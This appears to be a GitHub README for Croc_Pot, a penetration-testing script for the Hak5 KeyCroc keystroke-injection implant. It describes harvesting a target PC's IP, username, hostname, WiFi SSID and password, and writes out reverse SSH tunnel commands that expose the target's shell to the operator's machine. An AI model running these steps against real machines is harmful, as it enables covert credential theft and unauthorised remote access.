 # Croc_Pot

## INSTALLATION :

* Two file to this script
  - Will need to enter arming mode on your keycroc to install files.
  - First file is called Croc_Pot.sh Place this in the KeyCroc tools folder.
  - Second file is called Croc_Pot_Payload.txt Place this in the KeyCroc payload folder.
  - Edited the Croc_Pot_Payload.txt file for your keycroc passwd. default is (hak5croc)
  - Ensure your KeyCroc is connected (wifi) to the same local network as the target pc

## STARTING CROC_POT :

  - First way to start Croc_Pot.sh is ssh into your keycroc and type **/root/udisk/tools/Croc_Pot.sh**.
  - Second way to start Croc_Pot.sh is type in anywhere **crocpot** this will start Croc_Pot.sh script automatically.
  - It is recommended to start Croc_Pot.sh script with typing in **crocpot** as this payload will collect some data off the target pc. Some of the info that it will collect will be Target pc (ip address, current user name, pc host name, ssid and passwd, mac address), This info will be used in the Croc_Pot.sh script. **NOTE** When running **crocpot** scan takes about 30-40 sec to start because of OS detection then the script will start.

# SSH MENU :

### SSH TO HAK5 GEAR
 * Ensure all hak5 gear is connected to the same local network as your keycroc
   - Recommended to setup ssh PUBLIC AND PRIVATE KEY to each of your hak5 gear, SSH to your gear Without Password
   - SSH keycroc to Bash Bunny setup, first ensure your bash bunny has internet connection and connected to the same pc as your Keycroc, (bash bunny internet setup can be found at docs.hak5.org), Croc_Pot.sh will create a payload for your bash bunny this file will be saved on your keycroc at tools/Croc_Pot/Bunny_Payload_Shell then copy this file to one of the switch on your bash bunny this is to start Reverse SSH Tunnel.

### CREATE PUBLIC AND PRIVATE KEY
* Perform SSH Login Without Password Using ssh-keygen & ssh-copy-id
* Step 1: Create public and private keys using ssh-key-gen on local-host
  - jsmith@local-host$ **Note: You are on local-host here**
  - jsmith@local-host$ **ssh-keygen**
  - [Press enter key]
 * Step 2: Copy the public key to remote-host using ssh-copy-id
   - jsmith@local-host$ **ssh-copy-id -i ~/.ssh/id_rsa.pub remote-host-ip**
   - jsmith@remote-host's password:
 * Step 3: Login to remote-host without entering the password
   -jsmith@local-host$ **ssh remote-host-ip**
 * The above 3 simple steps should get the job done in most cases.
 
 ### Setup Reverse SSH Tunnel
   - Reverse SSH is a technique that can be used to access systems (that are behind a firewall) from the outside world.
   - Here is the command for remote server side
   - **ssh -fN -R 7000:localhost:22 username@your-Machine-ipaddress**
   - Now do an ssh connection request from your machine to your own machine at port 7000:
   - **ssh username@localhost -p 7000**
   - Here, though it may seem like you are doing ssh on localhost but your request would be forwarded to remote host. So, you should use your account ? username ? on remote server and when prompted for password, enter the corresponding password.
